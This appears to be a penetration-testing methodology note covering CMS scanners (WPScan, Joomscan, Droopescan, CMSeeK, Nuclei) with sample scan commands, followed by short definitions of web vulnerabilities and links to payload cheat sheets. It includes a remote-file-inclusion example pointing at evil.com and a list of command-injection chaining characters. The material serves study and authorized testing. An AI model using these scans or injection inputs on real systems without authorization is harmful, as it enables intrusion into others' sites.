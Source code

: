 
##### Attack Phase - 

###### Open source scanners - 

1. `WPScan` - It is used to scan remote Wordpress installations to find security issues.
	1. Vulnerable wordpress application - [DVWP](https://github.com/vavkamil/dvwp)
	2. `wpscan --url http://target.com`
2. `Joomscan/Juumla` - Automates the task of vulnerability detection and reliability assurance in Joomla CMS deployments.
	1. Link for Juumla - [Juumla](https://github.com/oppsec/juumla)
	2. `joomscan -u http://target.com`
3. `Droopescan` - Identifies security issues in Drupal installations. 
	1. Link - [Droopescan](https://github.com/SamJoan/droopescan)
	2. `./droopescan scan drupal -u http://target.com`
4. `CMSeeK` - Scanning wordpress, drupal, joomla and over 180 other CMSs.
	1. Link - [CMSeeK](https://github.com/Tuhinshubhra/CMSeek)
	2. `python3 cmseek.py -u http://target.com`
5. `Nuclei` - Fast and customised community powered vulnerability scanner.
	1. Link - [Nuclei](https://github.com/projectdiscovery/nuclei/releases)
	2. `nuclei -u https://target.com`
	3. `nuclei -u https://target.com -t exposures` - custom template directory
	4. `nuclei -u https://target.com --tags cve` - filters
	5. `nuclei -u https://target.com -w workflows/wordpress-workflow.yaml -severity critical,high,medium,low` - workflow with filters.
6. `Burpsuite` - Standard tool for testing the security of web application.
	1. [Burpsuite testing methodology](https://portswigger.net/support/burp-testing-methodologies)

###### Vulnerabilities - 

1. `Domain/Subdomain takeover` - Occurs when DNS entry for a domain/subdomain is pointing to an external service that has been removed or not currently in use.
	1. [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz)
2. `Path traversal & Local File Inclusion (LFI)` - 
	1. Path traversal - Access files and directories that are stored outside the web root directory by traversing the path with dot-dot-slash sequences (`../`).
	2. LFI - Allows an attacker to include a local file on the server through the exploitation of vulnerable inclusion procedures implemented in the application.
	3. [Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
3. `Remote File Inclusion (RFI)` - Allows an attacker to include an external link or file on the target application.
	1. `http://target.com/?location=http://evil.com`
4. `OS command injection` - Allows an attacker to execute operating system commands on the target application.
	1. Chaining characters -`&, &&, |, ||, ;, %0A, $(cmd)` \`cmd\`
	2. [Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
5. `Cross-site scripting (XSS)` - Allows an attacker to run malicious `Javascript` in the application.
	1. Reflected XSS
	2. Stored XSS
	3. DOM-based XSS
	4. [Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
6. `SQL injection` - Allows an attacker to insert or inject a malicious query that are later passed to an SQL query for parsing and execution.
	1. [Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
	2. Error-based SQLi
	3. UNION-based SQLi
	4. Time-based SQLi
	5. Boolean-based SQLi
	6. Tool - `SQLmap`
7. `Exposed git repository` - Git repository or `.git` is a folder containing all the information about the commits, logs, source code etc.
	1. Tools - [Dotgit](https://github.com/davtur19/DotGit) and [GitTools](https://github.com/internetwache/GitTools)